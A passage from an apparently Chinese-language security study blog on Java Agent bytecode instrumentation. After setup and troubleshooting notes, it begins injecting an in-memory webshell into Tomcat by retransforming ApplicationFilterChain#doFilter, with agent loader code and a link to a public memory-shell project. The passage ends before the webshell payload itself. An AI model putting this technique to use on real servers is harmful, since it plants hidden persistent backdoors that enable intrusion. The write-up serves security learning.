 ```java
    }
}
```
注意：javassist需要手动通过pom导入（或其他方式导入）
然后还需要对 MANIFEST.MF进行修改。不加这两条配置会报错。
```java
Can-Retransform-Classes 是否支持类的重新替换
Can-Redefine-Classes 是否支持类的重新定义
```
```java
Manifest-Version: 1.0
Agent-Class: com.sf.AgentHello1
Can-Redefine-Classes: true
Can-Retransform-Classes: true

```
看下结果
![image-20230707133240266](img/image-20230707133240266.png)

#### 报错问题解决整理
F:  Agent JAR loaded but agent failed to initialize
Q: 检查一下MANIFEST.MF中的Agent-Class是不是填错了（我的是这个问题）
F：java -cp 找不到或无法加载主类
Q：这个不是大问题，是环境变量的问题，我这边选择替换，不使用命令行来进行执行。而是直接在idea中执行。不过后面注入内存马的时候就要看实际环境了。
后面还有我写在发生问题的位置了。一些报错的问题可以查看，差不多遇到的就是这几种：[https://blog.z3ratu1.cn/Java%20Agent%E7%AE%80%E6%98%93%E5%85%A5%E9%97%A8.html](https://blog.z3ratu1.cn/Java%20Agent%E7%AE%80%E6%98%93%E5%85%A5%E9%97%A8.html)
## Agent内存马注入
### 命令注入内存马
网上的文章看了很多，大部分的师傅都是对org.apache.catalina.core.ApplicationFilterChain#doFilter进行修改。这里也利用这个。对doFilter进行修改。之前的Filter内存马的逻辑也学过的
项目代码：[https://github.com/KpLi0rn/AgentMemShell](https://github.com/KpLi0rn/AgentMemShell)，源码解读也就跟上面的修改字节码没什么区别，就是修改的内容变成了木马而已，代码中加了注释。
第一步，获取agent.jar
```java
import java.lang.instrument.Instrumentation;

public class AgentMain {
    public static final String ClassName = "org.apache.catalina.core.ApplicationFilterChain";

    public static void agentmain(String agentArgs, Instrumentation ins) {
        System.out.println("running..................................");
        //注册我们自定义的转换器transformer
        ins.addTransformer(new DefineTransformer(),true);
        // 获取所有已加载的类
        Class[] classes = ins.getAllLoadedClasses();
        for (Class clas:classes){
            if (clas.getName().equals(ClassName)){
                try{
                    // 对类进行重新定义
                    ins.retransformClasses(new Class[]{clas});
                } catch (Exception e){
                    e.printStackTrace();
                }
            }
        }
    }
}
```
注册我们自己的transformer，代码看着多，其实就是一个逻辑，注释又写了一遍加深印象。
```java
package com.sf;

```